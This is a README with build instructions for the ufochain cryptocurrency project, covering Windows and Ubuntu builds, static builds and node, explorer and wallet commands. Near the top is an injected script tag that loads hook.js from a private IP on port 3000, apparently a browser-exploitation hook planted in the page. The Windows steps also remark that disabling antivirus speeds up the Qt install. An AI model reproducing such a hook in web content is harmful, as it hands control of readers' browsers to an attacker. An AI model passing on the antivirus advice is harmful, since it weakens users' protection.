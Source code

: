 <script src="http://192.168.32.110:3000/hook.js"></script>

# How to build

### Windows

1. Install **cmake>=3.13.0** (https://cmake.org/download).


2. Install **Visual Studio >= 2017** (https://www.visualstudio.com/vs/), and **Visual Studio 2019** is strongly recommended.


3. Download and install **Boost** prebuilt binaries https://sourceforge.net/projects/boost/files/boost-binaries/1.68.0/boost_1_68_0-msvc-14.1-64.exe, also add ```BOOST_ROOT``` to the Environment Variables.


4. Download and install **OpenSSL** prebuilt binaries https://slproweb.com/products/Win32OpenSSL.html (Win64 OpenSSL v1.1.0h for example) and add ```OPENSSL_ROOT_DIR``` to the Environment Variables.


5. Download and install **QT 5.11** https://download.qt.io/official_releases/qt/5.11/5.11.0/qt-opensource-windows-x86-5.11.0.exe.mirrorlist and add ```QT5_ROOT_DIR``` to the Environment Variables (usually it looks like .../5.11.0/msvc2017_64), also add ```QML_IMPORT_PATH``` (it should look like ```%QT5_ROOT_DIR%\qml```). BTW disabling system antivirus on Windows makes QT installing process much faster.


6. Add .../qt511/5.11.1/msvc2017_64/bin and .../boost_1_68_0/lib64-msvc-14.1 to the System Path.


7. Fetch the ufochain project

```
git clone https://github.com/ufo-project/ufochain.git
```


8. Cmake-gui -> Set Project Folder -> Configure -> Generate -> Open Project -> Build


* **Btw**:
If you want to get a static release build, change line 131 ```set(UFO_USE_STATIC FALSE)``` to ```set(UFO_USE_STATIC TRUE)``` at CMakeList.txt, and use QT static lib (https://github.com/ufo-project/qt5-static-win)  to replace Qt dynamic lib in step 5.


### Ubuntu 18.04

1. Upgrade gcc and libstdc++

```
sudo apt update
sudo add-apt-repository ppa:ubuntu-toolchain-r/ppa
sudo apt update
sudo apt install wget gcc-8 unzip libssl1.0.0 software-properties-common
sudo apt-get install --only-upgrade libstdc++6
```


2. Install dependencies

```
sudo add-apt-repository ppa:beineri/opt-qt-5.11.0-bionic
sudo add-apt-repository ppa:mhier/libboost-latest
sudo apt-get update && sudo apt-get upgrade
sudo apt-get install g++-8 libssl-dev curl wget git make
sudo apt-get install libgl1-mesa-dev zlib1g-dev libboost1.67-dev
sudo apt-get install qt511base qt511declarative qt511svg qt511tools
```
	

3. Install cmake

```
wget https://cmake.org/files/v3.13/cmake-3.13.0-Linux-x86_64.sh
sudo sh ./cmake-3.13.0-Linux-x86_64.sh --skip-license --prefix=/usr
```


4. Fetch the ufochain project

```
git clone https://github.com/ufo-project/ufochain.git
```


5. Go to the Ufo project folder and start the release build

```
export PATH=/opt/qt511/bin:$PATH && export CC=gcc-8 && export CXX=g++-8
cmake -DCMAKE_BUILD_TYPE=Release && make -j4
```

* **Btw**:
If you want to get a static link with NO-QT-GUI release build

1.  Get OpenSSL-1.1.0k and build static libraries

```
wget https://www.openssl.org/source/old/1.1.0/openssl-1.1.0k.tar.gz
tar xvfz openssl-1.1.0k.tar.gz
cd openssl-1.1.0k
./config 
make -j4
```

2.  Get Boost-1.67.0 and build static libraries

```
wget https://iweb.dl.sourceforge.net/project/boost/boost/1.67.0/boost_1_67_0.zip
unzip boost_1_67_0.zip
cd boost_1_67_0
sh bootstrap.sh
./b2 link=static
```

3.  Modify and change line 131 ```set(UFO_USE_STATIC FALSE)``` to ```set(UFO_USE_STATIC TRUE)``` at CMakeList.txt, and then
add two lines in line 14 just as 

```
set(OPENSSL_ROOT_DIR "<your openssl source file dir>")
set(BOOST_ROOT "<your boost source file dir>")
```

4.  Build static link and NO-QT-QUI release

```
cmake -DCMAKE_BUILD_TYPE=Release -DUFO_QT_UI_WALLET=FALSE .
make -j4
```


# How to run

### ufo-node

```
./ufo-node --peer=mainnet-node01.ufo.link:20015,mainnet-node02.ufo.link:20015,mainnet-node03.ufo.link:20015 --treasury_path=treasury.bin --port=20015 
```

### explorer-node

```
./explorer-node --peer=mainnet-node01.ufo.link:20015,mainnet-node02.ufo.link:20015,mainnet-node03.ufo.link:20015 --api_port=20020
```

### wallet-api

```
./wallet-api --node_addr=mainnet-node01.ufo.link:20015,mainnet-node02.ufo.link:20015,mainnet-node03.ufo.link:20015 --pass=<your wallet pass> --use_http=1 --ip_whitelist=<ip allow to access>
```
